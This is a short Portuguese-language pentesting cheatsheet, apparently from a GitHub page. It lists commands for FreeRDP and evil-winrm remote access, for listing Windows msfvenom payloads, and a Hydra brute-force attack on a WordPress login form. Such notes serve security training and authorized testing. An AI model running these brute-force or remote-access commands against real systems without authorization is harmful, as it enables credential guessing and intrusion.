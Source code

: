 
## 📌FreeRDP
```bash
xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip> /sec:rdp /cert:ignore /auto-reconnect /drive:shared,/caminho/da/pasta/local
```

# 🛠️ Recursos Adicionais
- **Nmap Scripts**: `/usr/share/nmap/scripts`
- **msfvenom Cheatsheet**:`https://blog.ironlinux.com.br/msfvenom-cheatsheet/`
- **Metasploit Payloads**: `msfvenom -l payloads | grep "windows"`
- **FreeRDP**: `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip> /sec:rdp /cert:ignore /auto-reconnect`
- hydra -L usuarios.txt -P senhas.txt IP_DO_ALVO http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:S=Location" -V
- evil-winrm -i 10.10.10.10 -u username -p password  (porta windows 5985 / 5986)
